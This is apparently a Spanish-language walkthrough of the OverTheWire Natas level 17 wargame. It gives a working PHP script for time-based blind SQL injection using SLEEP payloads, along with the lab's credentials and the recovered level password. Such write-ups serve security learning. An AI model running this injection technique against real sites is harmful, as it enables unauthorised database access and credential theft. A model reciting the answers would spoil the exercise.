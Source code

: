 Este nivel es similar al nivel 15, con la salvedad de que ahora no se imprime
por pantalla el resultado de la consulta (ni siquiera si dio o no resultado).

```php
...
$res = mysqli_query($link, $query);
if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
} else {
    echo "Error in query.<br>";
}
...
```

Para resolver el ejercicio, podemos utilizar la misma técnica, pero cambiando el
criterio de validación. Debido a que no vemos el resultado, podemos agregar en
caso de que encuentre resultado, un `sleep`. Luego en base al tiempo de
respuesta determinaremos el resultado de la misma.

```php
$authorization = base64_encode("natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd");
$url = "http://natas17.natas.labs.overthewire.org/index.php?debug";
$valid_time = 3;

function verify($inyection)
{
    global $authorization;
    global $url;
    global $valid_time;

    $options = [
        'http' => [
            'header' => "Content-type: application/x-www-form-urlencoded\r\n" .
                "Authorization: Basic $authorization\r\n",
            'method' => 'POST',
            'content' => http_build_query(['username' => $inyection]),
        ],
    ];

    $context = stream_context_create($options);

    $time_pre = microtime(true);
    file_get_contents($url, false, $context);
    $time_post = microtime(true);

    return ($time_post - $time_pre) > $valid_time;
}

function contains_inyection($substring)
{
    return "natas18\" AND password LIKE BINARY \"%$substring%\" AND SLEEP(3) != \"";
}

function startwith_inyection($start)
{
    return "natas18\" AND password LIKE BINARY \"$start%\" AND SLEEP(3) != \"";
}


function equals_inyection($password)
{
    return "natas18\" AND password LIKE BINARY \"$password\" AND SLEEP(3) != \"";
}
```

El resto del código es similar al de los niveles anteriores.Al ejecutarlo,
obtendremos la contraseña para el usuario natas18 luego de un rato.

```
$ php crack-natas17.php
...
...
Final password: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
```

Debido a que depende del tiempo, es mejor si se ejecuta multiples veces de forma
simultánea. Esto permite encontrar errores y corregirlos.

